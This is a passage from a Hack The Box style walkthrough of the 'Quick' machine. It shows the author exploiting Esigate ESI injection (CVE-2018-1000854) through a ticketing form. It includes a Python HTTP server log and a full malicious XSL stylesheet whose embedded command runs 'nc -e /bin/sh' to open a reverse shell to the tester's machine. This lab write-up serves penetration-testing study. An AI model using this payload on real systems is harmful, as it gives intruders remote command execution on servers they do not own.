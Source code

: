 I made sure to capture the login credentials in Burp so I could easily resend them any time I needed.

## Initial Foothold

![](/assets/img/assets/10-logged-in.png)

Now that I was logged into the portal, I had access to the `/home`, `/ticket`, and `/search` pages I had seen in my dirbuster output earlier. 

![](/assets/img/assets/12-raise-ticket.png)

The ticketing page had an entry field that gave me a ticket number when I submitted it.

![](/assets/img/assets/11-ticket.png)

Since I now had access to some fields that I could send input through, I decided to test out that Esigate vulnerability I had read about earlier to see if it could be exploited. It was assigned as CVE-2018-1000854. [https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/) [https://github.com/esigate/esigate/issues/209](https://github.com/esigate/esigate/issues/209) 

```text
zweilos@kali:~/htb/quick$ python -m SimpleHTTPServer 9088
Serving HTTP on 0.0.0.0 port 9088 ...
10.10.10.186 - - [11/Aug/2020 21:15:36] "GET /evil.xsl HTTP/1.1" 200 -
```

I followed the instructions in the blog and crafted an XSL file, which contained specially formed XML code that would be read and executed by Esigate when reflected into an XML file.

![](/assets/img/assets/18-im-in.png)

I submitted the above code into the ticketing system, which caused Esigate to load the `evil.xml` file with my code from the `evil.xsl` code reflected into it as a "stylesheet". 

```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
	<xsl:variable name="cmd"><![CDATA[./nc -e /bin/sh 10.10.15.57 13371]]></xsl:variable>
	<xsl:variable name="rtObj" select="rt:getRuntime()"/>
	<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
	Process: <xsl:value-of select="$process"/>
	Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
